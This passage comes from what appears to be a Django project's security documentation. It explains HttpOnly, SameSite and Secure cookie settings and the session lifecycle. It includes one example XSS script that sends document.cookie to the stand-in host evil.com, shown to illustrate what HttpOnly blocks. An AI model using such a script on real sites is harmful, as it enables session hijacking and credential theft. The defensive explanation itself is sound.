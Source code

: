 **Example XSS Attack (Prevented by HttpOnly)**:
```javascript
// Attacker injects this script
<script>
    // Try to steal session cookie
    fetch('https://evil.com/steal?cookie=' + document.cookie);
</script>

// With HttpOnly: document.cookie returns empty (session cookie hidden)
// Without HttpOnly: document.cookie returns "sessionid=abc123..." (STOLEN!)
```

**SameSite Flag** (`Lax`):
- Cookie not sent on cross-site POST requests
- Cookie sent on top-level navigation (clicking links)
- Provides CSRF protection (defense-in-depth)

**SameSite Modes**:
- `Strict`: Never send cookie on cross-site requests (most secure, but breaks some workflows)
- `Lax`: Send cookie on safe cross-site requests (GET, HEAD) but not POST
- `None`: Always send cookie (requires Secure flag, HTTPS only)

**Production HTTPS Settings** (commented out in settings.py):
```python
# Uncomment for production with HTTPS:
if not DEBUG:
    SESSION_COOKIE_SECURE = True  # Only send cookie over HTTPS
    CSRF_COOKIE_SECURE = True     # Only send CSRF cookie over HTTPS
```

**Session Lifecycle**:

1. **Login**: `login(request, user)` creates session
   - Session ID generated (cryptographically random)
   - Session data stored server-side (database)
   - Session ID sent in cookie to browser

2. **Subsequent Requests**: Browser sends session cookie
   - Middleware reads cookie, loads user from session
   - `request.user` populated with User object

3. **Logout**: `logout(request)` destroys session
   - Session data deleted from database
   - Cookie deleted from browser

**Code References**:
- Session settings: `brewschews/settings.py:424`
- Session middleware: `brewschews/settings.py:124`

## 5. Audit Logging

### Authentication Event Tracking

**What**: All authentication attempts (signup, login) are logged for security monitoring and forensics.

